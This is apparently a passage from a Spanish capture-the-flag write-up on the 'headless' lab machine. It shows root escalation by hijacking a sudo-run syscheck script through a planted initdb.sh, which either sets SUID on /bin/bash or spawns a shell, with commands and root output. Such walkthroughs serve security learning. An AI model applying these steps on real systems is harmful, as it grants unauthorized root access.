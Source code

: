 **Alternativa:** initdb.sh

```Shell
#!/bin/bash

chmod u+s /bin/bash
```

Explicación: como este archivo se ejecuta dentro de un proceso de superusuario, podemos indicarle que modifique los permisos para que tenga permisos SUID en la /bin/bash y poder lanzarnos una shell como root

Con `ls -l /bin/bash` podemos ver antes y después como los permisos cambian

**Nota:** importante dar permisos de ejecución al archivo *initdb.sh* con `chmod +x initdb.sh`

Elevación de privilegios con SUID:

```Shell
bash -p
```
#### Respuesta:

El archivo `initdb.sh` se crea con un simple payload para abrir una shell de bash y luego se le otorgan permisos de ejecución.

#### Explicación:

Creamos el archivo `initdb.sh` con un script básico que ejecuta una shell de bash. Esto permitirá que, al ejecutar `syscheck`, se inicie una shell interactiva con privilegios de root.

---

### Paso 7: Ejecución de `syscheck` y escalado a root

#### Acción:

Ejecutamos el script `syscheck` con privilegios de root y obtenemos acceso como `root`.

```bash
dvir@headless:/tmp$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
whoami
root
```

#### Respuesta:

El script `syscheck` ejecuta el servicio `initdb.sh`, lo que nos otorga acceso como root.

#### Explicación:

Cuando ejecutamos `syscheck` con privilegios de root, el script detecta que el servicio `initdb.sh` no está en ejecución y lo inicia. Esto abre una shell con privilegios de root, lo que nos permite tener control completo sobre el sistema.

---
